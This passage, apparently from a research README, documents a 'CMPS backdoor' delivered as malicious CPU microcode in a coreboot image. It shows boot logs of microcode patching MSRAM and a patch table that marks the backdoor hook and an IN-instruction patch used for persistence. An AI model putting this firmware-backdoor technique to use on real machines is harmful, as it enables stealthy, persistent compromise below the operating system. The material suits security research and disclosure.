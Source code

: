 For the CMPS backdoor, if the pre-built coreboot image is correctly flashed
onto the board, the following logs will appear in the serial console during
boot. These logs demonstrate how the malicious microcode takes over the
MSRAM.

 [INFO ]  patching addr: 00007dbc - ram: 000001bc
 [INFO ]  7dbc: 11890b8279c8 11890b8279c8 11890b826988 018000c0
 [INFO ]  7dc0: 11890b826988 000000000000 000000000000 018000c0
 [INFO ]  7dc4: 100500021861 237d3f000e88 0fff00000000 030000f2
 [INFO ]  Patching 3de8 -> 7dc8
 [INFO ]  7dc8: 000000000000 1c0000231027 0008901f000d 018000c0
 [INFO ]  7dcc: 006410030230 0040d75b0230 006410030230 018000c0
 [INFO ]  7dd0: 0040e65f0330 006410030230 00403d770370 018000c0
 [INFO ]  7dd4: 000000000000 00450003ac31 0150bc7402fa 018000c0
 [INFO ]  7dd8: 1c0000231027 1c0000630026 108501034d08 018000c0
 [INFO ]  7ddc: 015dec740240 015ded740240 015dee740240 018000c0


In the match/patch table, the last two entries are occupied: one
corresponds to the backdoor hook (previously described, though with a
different offset due to CPU stepping), and the other is the IN instruction
microcode patch, which is critical for maintaining persistent microcode
hooks.

 idx p src   dst
 00: 0 0x0000  0x0000
 01: 1 0x4dc0  0x7c4c
 02: 1 0x2078  0x7c0e
 03: 1 0x682a  0x7c86
 04: 1 0x1c3c  0x7c30
 05: 1 0x6a10  0x7c44
 06: 1 0x3c7a  0x7c22
 07: 1 0x4f52  0x7cca
 08: 1 0x01d6  0x7c6a
 09: 1 0x2e44  0x7cbe
 10: 1 0x70fa  0x7c9e
 11: 1 0x13c2  0x7cea
 12: 1 0x67a0  0x7c6e
 13: 1 0x0cd2  0x7c82
 14: 1 0x209c  0x28d8
 15: 1 0x141e  0x7c96
 16: 1 0x24bc  0x7c8a
 17: 1 0x623a  0x7d16
 18: 0 0x0000  0x0000
 19: 0 0x0000  0x0000
 20: 0 0x0000  0x0000
 21: 0 0x0000  0x0000
 22: 0 0x0000  0x0000
 23: 0 0x0000  0x0000
 24: 0 0x0000  0x0000
 25: 0 0x0000  0x0000
 26: 0 0x0000  0x0000
 27: 0 0x0000  0x0000
 28: 0 0x0000  0x0000
 29: 0 0x0000  0x0000
 30: 1 0x3de8  0x7dc8
 31: 1 0x58ba  0x017a
